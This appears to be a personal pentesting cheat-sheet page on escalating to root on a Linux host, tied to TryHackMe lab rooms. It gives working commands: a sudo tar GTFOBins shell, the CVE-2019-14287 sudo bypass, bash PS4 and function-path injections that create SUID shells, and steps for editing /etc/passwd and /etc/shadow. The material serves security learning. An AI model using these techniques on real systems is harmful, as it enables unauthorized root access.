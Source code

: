 # Compromise a Linux host

<p>

[![linuxfundamentalspart1](../../_badges/thm/linuxfundamentalspart1.svg)](https://tryhackme.com/room/linuxfundamentalspart1)
[![linuxfundamentalspart2](../../_badges/thm/linuxfundamentalspart2.svg)](https://tryhackme.com/room/linuxfundamentalspart2)
[![linuxfundamentalspart3](../../_badges/thm/linuxfundamentalspart3.svg)](https://tryhackme.com/room/linuxfundamentalspart3)
[![linux1](../../_badges/thm/linux1.svg)](https://tryhackme.com/room/linux1)
[![linux2](../../_badges/thm/linux2.svg)](https://tryhackme.com/room/linux2)
[![bashscripting](../../_badges/thm/bashscripting.svg)](https://tryhackme.com/room/bashscripting)
[![linuxstrengthtraining](../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![catregex](../../_badges/thm/catregex.svg)](https://tryhackme.com/room/catregex)
[![linuxprivesc](../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linprivesc](../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linux_privilege_escalation](../../_badges/poat/linux_privilege_escalation.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
</p>

<div class="row row-cols-md-2"><div>

As there isn't much we can do as a regular user, we will try to elevate our level of privileges to root (administrator). You may have to do lateral movement first, i.g. moving to another account that has the same level of privilege, but may have different permissions.

* Find misconfiguration <small>(sudo, system files, NFS...)</small>
* Find a vulnerable service and exploit it <small>(apache, mysql...)</small>
* Find processes/tasks/script in which you can inject data
  * cron jobs
  * executables with the SUID bit
  * ...
* Find a vulnerability in the kernel
* ...

</div><div>

There are many scripts **automated scripts** that will investigate usual places, services, files... that you may want to look at. You will still have to understand the output, dig into it...

* [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) (10.4k ⭐): enumerate host | script shell
* [LinEnum](https://github.com/rebootuser/LinEnum) (5.4k ⭐): enumerate host | script shell
* [traitor](https://github.com/liamg/traitor)  (5.4k ⭐): enumerate/exploit host | script in go
* [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) (lse, 2.5k ⭐): enumerate host | script shell
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) (1.1k ⭐): enumerate host | python script
</div></div>

<hr class="sep-both">

## 🎁 GTFOBins 🎁

<div class="row row-cols-md-2"><div>

It's common for well-known Linux commands to be misconfigured. Vulnerabilities can lead to reading/writing root-only files, execute commands as root...

**[gtfobins](https://gtfobins.github.io/)** (7.4k ⭐) is the reference when looking for commands to exploit misconfigured Linux commands.

> There is a local version of [gtfo in Python](https://github.com/t0thkr1s/gtfo) (96 ⭐, 2021).
</div><div>

Example: you can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a bash as root.

```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> I'm adding [some extras here](gtfobins.md).
</div></div>

<hr class="sep-both">

## Misconfigured permissions

<div class="row row-cols-md-2"><div>

If `/etc/passwd` was <s>intentionally</s> misconfigured

```bash
$ cat /etc/passwd
# if you can read it: try to bruteforce the password
# if you can write it: change the root password
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

If `/etc/shadow` was <s>intentionally</s> misconfigured

```bash
$ cat /etc/shadow
# if you can write it: make your user part of root group
# if you can write it: add a new user that is part of root group
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

Until 1979/Unix V7, passwords were stored in `/etc/passwd`, so a regular user could read them, and try brute-forcing the password.

```bash
$ cat /etc/shadow
- root:x:...
+ root:hashed_password:...
# openssl passwd toto
```
</div><div>

**SUID/GUID**

[![vulnversity](../../_badges/thm-p/vulnversity.svg)](https://tryhackme.com/room/vulnversity)
[![kenobi](../../_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)
[![rrootme](../../_badges/thm-p/rrootme.svg)](https://tryhackme.com/room/rrootme)

Scripts having the SUID bit can be executed with the permissions of their owner. GUID is the same, but using the owner group permissions. If you find one, try to see on GTFOBins if you have a well-known way to exploit it.

```bash
# "-04000" "-4000" | "-4001"
$ find / -perm -u=s -type f -ls 2>/dev/null
# and group
$ find / -perm -g=s -type f -ls 2>/dev/null
```

If the script "hand-made", or not something on GTFOBins, then you can use `strace script`, and `strings script`. Both commands can be used if the script is "unreadable", to try to find what the script is doing, and maybe find Paths/Environment variables that you may have the permission to edit.

> **CVE-2021-4034**: `/usr/bin/pkexec` a file installed by default on
every major Linux distribution with a **SUID bit** could be exploited to get root. See [arthepsy PoC](https://github.com/arthepsy/CVE-2021-4034) (913 ⭐), or [berdav PoC](https://github.com/berdav/CVE-2021-4034) (1.7k ⭐).
</div></div>

<hr class="sep-both">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

[![picklerick](../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)

Try to find commands that can be run with sudo

```bash
$ sudo -nl # test if you can sudo without a password
$ sudo -l # if you can't, try with your password
# -> if both cases, if you were successful
# and there are some interesting stuff such as:
Matching Defaults entries for [...]:
    [...] # try to exploit values here (LD_PRELOAD...)

User [...] may run the following commands on [...]:
    (root) /bin/tar # see GTFOBins for sudo exploit
```
</div><div>

**sudo before 1.8.28 (CVE-2019-14287)**

[![agentsudoctf](../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `nc`, then it was possible for any user to bypass the check, and run the command as root.

```bash
$ sudo -u#-1 nc
$ sudo -u#4294967295 nc
```
</div></div>

<hr class="sep-both">

## Exploit bash

<div class="row row-cols-md-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allow us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```bash
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Kernel exploits

<div class="row row-cols-md-2"><div>

Kernel exploits should be used at a last resort, as they will most probably severely impact the machine state/crash the machine if they fail. You can find the complete list of CVE for the Linux Kernel [here](https://www.linuxkernelcves.com/cves).

* [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW) on Linux kernel <4.8.3
</div><div>

There are scripts, but remember that they may generate false positives or false negatives.

* [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) (3.9k ⭐): still updated with new exploits
* [Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) (1.6k ⭐): up to 4.x excluded
* [Linux Kernel Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (1.4k ⭐): up to 5.x excluded
</div></div>

<hr class="sep-both">

## Random

<div class="row row-cols-md-2"><div>

The Fork bomb is an attack wherein a process continually replicates itself to deplete available system resources, according to [Wikipedia](https://en.wikipedia.org/wiki/Fork_bomb).
</div><div>
</div></div>